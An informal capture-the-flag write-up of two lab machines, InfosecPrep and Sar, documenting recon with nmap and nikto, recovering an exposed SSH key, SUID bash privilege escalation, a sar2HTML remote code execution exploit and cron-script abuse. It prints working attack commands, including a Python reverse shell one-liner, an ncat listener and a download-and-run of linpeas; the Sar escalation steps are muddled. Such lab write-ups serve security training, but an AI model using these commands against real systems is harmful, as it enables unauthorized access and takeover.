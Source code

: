 # Machine: InfosecPrep

- Vulnerability: Privilege Escalation

- The severity of the issue: Meduim

- Description :

with the vulnerability, an attacker can gain unauthorized privileged access to a system

- Reproduction :

Going to our browser with the provided ip_add

With it (IP Address of the machine) the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	port => 80, 22 (good)!
  
Then with The help of Nikto, we can scan web servers for known vulnerabilities 

	nikto -host ip_add
  

After that we've some directories we've tested the common robots.txt which tells the search engines which directories not to enter :
 
	ip_add/robots.txt
	
	output -> /secret.txt
  
This seems like an interesting place to visit, after that we've got a text seems like a base64 encoded file with the equal the end first guess i thought let's decoded it
 
	wget ip_add/secret.txt | cat secret.txt | base64 -d > ssh_key.txt 
 
This is actually a private key and based on our previous scan we've noticed a port for ssh connection 22 
 
then we thought why not connect with the user 'oscp' and the host ip_add using the private key after changing their permissions (Secure) : 
 
	chmod 600 ssh_key.txt ; ssh -i ssh_key.txt user@ip_add -p 22 
 
Bingo we've login and we've got our first flag called local;
 

Let's scan with a tool just trying to search for possible and available exploits i'm using Linpeas :

	wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ; chmod +x linpeas.sh | ./linepeas 

though the scan of Linepeas we've noticed a suid in the bash builtin command (indicates that the file has the setuid bit set) which means we can gain access through a ;

	/bin/bash -p
	whoami 
	
	with the -p option through some googling it turns up it's a bug that allows the default shell to run with SUID privileges meaning that we have permission to run with the owner privilege


I gain access and I become a root

	cd /root/ ; cat proof.txt
	
Done!

# Resources:

https://gtfobins.github.io/gtfobins/bash/

man nmap, nikto

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 



# Machine: Sar

- Vulnerability: Remote Code Execution (RCE)

- The severity of the issue: High

- Description :

an attacker can remotely execute commands on someone else's computing device

- Reproduction :

Going to our browser with the provided ip_add, it's a default page for the Apache2 server i've read and it has nothing

As always the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	we've got only an open port for http communication 80

  
testing our robots.txt:
 
	ip_add/robots.txt

It has a directory for sar2HTML i enter, and i've read the full page and i got no idea the first thing i did is to google the name of sar2HTML, and it turns up it a command execution and i've looked for the verified one using in exploit-db :

	searchsploit sar2HTML
	
the exploit is a python script i creat a rce.py file that has the script, good!

i've run the script and i required the url, i've to give him the url with the sar2HTML path;

	python3.9 rce.py
	
	url -> http://ip_add/sar2HTML/

then i require a command ;

	cmd => ls
	
good we've got for ourselves a remote code execution, since we're dealing with rce it would be useful to use the reverse shell in order to communicate (i'll be using python3 (already checked if it exists)):

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("My_machine_ip_add",Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
	
	-c option to run full syntaxes in single line

on the other side, i'm listing through the port i've specified early 
 
	ncat -lvp 1010


with both we've got for ourselves a connection with the victim machine, based on the other machine starting our search for a flag maybe called local.txt;

	find / -type f -name local.txt 2> /dev/null
	
bingo we've got a flag good

for this part i'm back to my favorite tool Linpeas :

	./linepeas 

we've noticed a crontab runnign every 5 min */5 with sudo priviliege located in /var/www/html/finally.sh ;

	ls -la ; cat ./finally.sh
	
noticed that we don't have permission to modify on the finally script but he can run the write.sh that we have privileges so why not modify it to become ;


	touch output.txt ; chmod 777 output.txt
	cd /root/ ; ls -la >  output.txt
	

since the output always shows up at the root machine i thought to redirect it to a file after playing the waiting game for 5 min the script runs successfully and i was able to see the file in the root directory 


since we've soul the files, i've modified the file to output anything to my file ;


	cd /root/ ; ls -la >  output.txt  
	

	

# Resources:
as always man pages for the tools i've used

https://www.exploit-db.com/exploits/49344

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/655cec1f1a438fa611777deedd2a19a26aff8485/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
